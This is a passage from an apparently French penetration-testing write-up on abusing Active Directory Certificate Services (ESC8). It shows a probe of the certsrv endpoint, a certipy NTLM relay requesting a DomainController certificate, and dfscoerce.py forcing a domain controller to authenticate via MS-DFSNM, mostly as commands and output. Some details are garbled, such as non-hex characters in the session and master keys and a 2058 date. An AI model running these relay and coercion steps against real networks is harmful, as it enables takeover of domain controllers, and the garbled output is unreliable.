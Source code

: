 ```bash
    Cipher    : ECDHE-RSA-AES256-GCM-SHA384
    Session-ID: 6A0C000KUVDGVKUVLSBUS%AMJPZ90288EIOSJNF21CD1F147545D5A01DD135
    Session-ID-ctx: 
    Master-Key: 81A8B8C94LKDJHBLDJBLDKMJMDFKJFNMFK96ECE1ECD5CFAB4285AEE9B80744A
    PSK identity: None
    PSK identity hint: None
    SRP username: None
    Start Time: 1740045190
    Timeout   : 7200 (sec)
    Verify return code: 21 (unable to verify the first certificate)
    Extended master secret: yes
```

#### Curl

```bash
curl -I  "http://$DC_IP/certsrv/certfnsh.asp"
HTTP/1.1 401 Unauthorized
Content-Length: 1384
Content-Type: text/html
Server: Microsoft-IIS/10.0
WWW-Authenticate: Negotiate
WWW-Authenticate: NTLM
X-Powered-By: ASP.NET
Date: Mon, 17 Feb 2058 16:10:26 GMT
```

### Exploitation 

#### 1. Création du listener NTLM

```bash
certipy relay -target "http://$DC_IP/certsrv/certfnsh.asp" -ca "$DC_HOST" -template "DomainController"
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting http://192.168.0.4/certsrv/certfnsh.asp (ESC8)
[*] Listening on 0.0.0.0:445
[ ] officedomain\MY-AD01$
[*] Requesting certificate for 'officedomain\\MY-AD01$' based on the template 'DomainController'
```

#### 2. NTLM Auth Coercion via MS-DFSNM

Cela consiste à forcer un localpte machine AD à s’authentifier auprès de mon listenner, exploitant l’appel RPC `NetrDfsRemoveStdRoot()` via l’interface MS-DFSNM (Distributed File System Namespace Management Protocol). 

En modifiant l’adresse distante dans les appels RPC permettant d'administrer les configurations DFS (Distributed File System), la machine cible va s’authentifier involontairement vers l’attaquant. Ne fonctionne que contre des DC.

```bash
dfscoerce.py -d "$DOMAIN" -u "$USER" -p "$PASSWORD" "$NTLM_LISTERNER_IP" "$DC_HOST"
[-] Connecting to ncacn_np:my-ad-02.office.domain.local[\PIPE\netdfs]
[+] Successfully bound!
[-] Sending NetrDfsRemoveStdRoot!

NetrDfsRemoveStdRoot 
ServerName:                      '192.168.1.1\x00' 
RootShare:                       'test\x00' 
ApiFlags:                        1 
```
